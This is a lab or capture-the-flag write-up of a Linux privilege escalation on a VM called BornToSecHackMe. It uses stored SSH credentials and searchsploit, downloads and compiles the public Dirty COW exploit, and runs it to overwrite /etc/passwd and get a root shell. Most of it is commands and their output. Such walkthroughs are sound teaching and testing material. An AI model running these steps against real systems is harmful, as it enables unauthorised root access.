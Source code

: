 scp test laurie@172.16.129.137:/home/laurie/test




The first step it to use the credentials of laurie which we got in writeup1.md.

ssh laurie@172.16.129.137
password : 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

Then we check the version of the linux kernel with :

```
uname -r
```

output : 3.2.0-91-generic-pae

Kernel version is 3.2.

Using searchsploit on the host machine, we check the possible vulnerabilites of the 3.2 version.


```
searchsploit linux kernel 3.2.0-91
```

output :

------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                          |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Linux Kernel (Solaris 10 / < 5.10 138888-01) - Local Privilege Escalation                                                                                               | solaris/local/15962.c
Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method)                                                      | linux/local/40616.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (/etc/passwd Method)                                                         | linux/local/40847.cpp
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRACE_POKEDATA' Race Condition (Write Access Method)                                                                            | linux/local/40838.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)                                                      | linux/local/40839.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /proc/self/mem Race Condition (Write Access Method)                                                                             | linux/local/40611.c
Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64) - 'Mempodipper' Local Privilege Escalation (1)                                                                    | linux/local/18411.c
Linux Kernel 2.6.39 < 3.2.2 (x86/x64) - 'Mempodipper' Local Privilege Escalation (2)                                                                                    | linux/local/35161.c
Linux Kernel 3.0 < 3.3.5 - 'CLONE_NEWUSER|CLONE_FS' Local Privilege Escalation                                                                                          | linux/local/38390.c
Linux Kernel 3.14-rc1 < 3.15-rc4 (x64) - Raw Mode PTY Echo Race Condition Privilege Escalation                                                                          | linux_x86-64/local/33516.c
Linux Kernel 4.10.5 / < 4.14.3 (Ubuntu) - DCCP Socket Use-After-Free                                                                                                    | linux/dos/43234.c
Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation                                                                                                              | linux/local/41886.c
Linux Kernel < 3.16.1 - 'Remount FUSE' Local Privilege Escalation                                                                                                       | linux/local/34923.c
Linux Kernel < 3.16.39 (Debian 8 x64) - 'inotfiy' Local Privilege Escalation                                                                                            | linux_x86-64/local/44302.c
Linux Kernel < 3.4.5 (Android 4.2.2/4.4 ARM) - Local Privilege Escalation                                                                                               | arm/local/31574.c
Linux Kernel < 3.5.0-23 (Ubuntu 12.04.2 x64) - 'SOCK_DIAG' SMEP Bypass Local Privilege Escalation                                                                       | linux_x86-64/local/44299.c
Linux Kernel < 3.8.9 (x86-64) - 'perf_swevent_init' Local Privilege Escalation (2)                                                                                      | linux_x86-64/local/26131.c
Linux Kernel < 3.8.x - open-time Capability 'file_ns_capable()' Local Privilege Escalation                                                                              | linux/local/25450.c
Linux Kernel < 4.10.13 - 'keyctl_set_reqkey_keyring' Local Denial of Service                                                                                            | linux/dos/42136.c
Linux kernel < 4.10.15 - Race Condition Privilege Escalation                                                                                                            | linux/local/43345.c
Linux Kernel < 4.11.8 - 'mq_notify: double sock_put()' Local Privilege Escalation                                                                                       | linux/local/45553.c
Linux Kernel < 4.13.1 - BlueTooth Buffer Overflow (PoC)                                                                                                                 | linux/dos/42762.txt
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation                                                                                           | linux/local/45010.c
Linux Kernel < 4.14.rc3 - Local Denial of Service                                                                                                                       | linux/dos/42932.c
Linux Kernel < 4.15.4 - 'show_floppy' KASLR Address Leak                                                                                                                | linux/local/44325.c
Linux Kernel < 4.16.11 - 'ext4_read_inline_data()' Memory Corruption                                                                                                    | linux/dos/44832.txt
Linux Kernel < 4.17-rc1 - 'AF_LLC' Double Free                                                                                                                          | linux/dos/44579.c
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation                                                                                                  | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_offset' Local Privilege Escalation                                                                       | linux_x86-64/local/44300.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escalation (KASLR / SMEP)                                                                   | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/18 / Zorin) - Local Privilege Escalation (KASLR / SMEP)                                               | linux/local/47169.c
Linux Kernel < 4.5.1 - Off-By-One (PoC)                                                                                                                                 | linux/dos/44301.c
------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------

We chose the Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method) exploit.

searchsploit is a tool used to find exploits available on https://www.exploit-db.com, the output Name is the same as the one on the website.

We filter by name and find it : https://www.exploit-db.com/exploits/40839

Let's copy the content of the code inside a new C programming file, diry_cow.c :

```
wget --no-check-certificate https://www.exploit-db.com/download/40839 -O dirty_cow.c
```

Comments inside dirty_cow.c explain how to compile and run the binary :

Compile with:
```
 gcc -pthread dirty.c -o dirty -lcrypt
```

Then run the newly create binary by either doing:
```
  ./dirty or ./dirty my-new-password
```

Doing as instructed :

```
./dirty
```

output :
  /etc/passwd successfully backed up to /tmp/passwd.bak
  Please enter the new password:

Let's use the character 'q' as new password.

output :

Complete line:
firefart:fi86Ixhn/lTi2:0:0:pwned:/root:/bin/bash

mmap: b7fda000


Terminating the program with ^C, we identify as the new user and provide the newly created password :

```
su firefart
```
password : q

We see we changed user :
firefart@BornToSecHackMe:/home/laurie#

```
whoami
```
output:
firefart

Let's confirm we have escalated to root and succeeded :

```
id
```
output:
uid=0(firefart) gid=0(root) groups=0(root)

